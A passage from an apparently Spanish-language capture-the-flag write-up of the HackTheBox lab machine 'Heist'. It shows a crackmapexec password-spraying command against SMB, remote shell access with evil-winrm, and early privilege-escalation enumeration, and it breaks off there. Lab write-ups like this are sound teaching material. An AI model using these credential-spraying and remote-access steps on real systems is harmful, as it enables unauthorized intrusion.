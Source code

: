 Y ahora le pasamos el archivo:

```bash
❱ crackmapexec smb 10.10.10.149 -u users.txt -p users.txt                                                                
```

Despues de un pequeño rato obtenemos:

![201bash_crackmapexec_user_chase](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/heist/201bash_crackmapexec_user_chase.png)

Unas nuevas credenciales, pues volvamos a probar con todas las opciones a ver...

Finalmente ante **evil-winrm** conseguimos una **PowerShell**:

![201bash_evilwinrm_chase](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/heist/201bash_evilwinrm_chase.png)

aksldfjlkajskleu (:

...

## Escalada de privilegios [#](#escalada-de-privilegios) {#escalada-de-privilegios}

Enumerando el sistema encontramos varias cositas:

```powershell
*Evil-WinRM* PS C:\Users\Chase\Desktop> type todo.txt
Stuff to-do:
1. Keep checking the issues list.
2. Fix the router config.

Done:
1. Restricted access for guest user.
```

Una lista de tareas...

Podemos destacar algo "raro" de las cosas por hacer, nos indica que: *Se mantendrá un chequeo constante a la lista de problemas*, esto es llamativo porque a menos que tengan una persona todo el tiempo (todo el tiempo real, ahí mirando a cada rato) debe existir algún proceso monitoreando esa lista de problemas, ¿no?

Esto toma algo de sentido cuando enumeramos los programas instalados en el sistema:

```powershell
*Evil-WinRM* PS C:\> dir "Program Files"

    Directory: C:\Program Files

Mode                LastWriteTime         Length Name
----                -------------         ------ ----
...
d-----        2/18/2021   4:21 PM                Mozilla Firefox
...
```
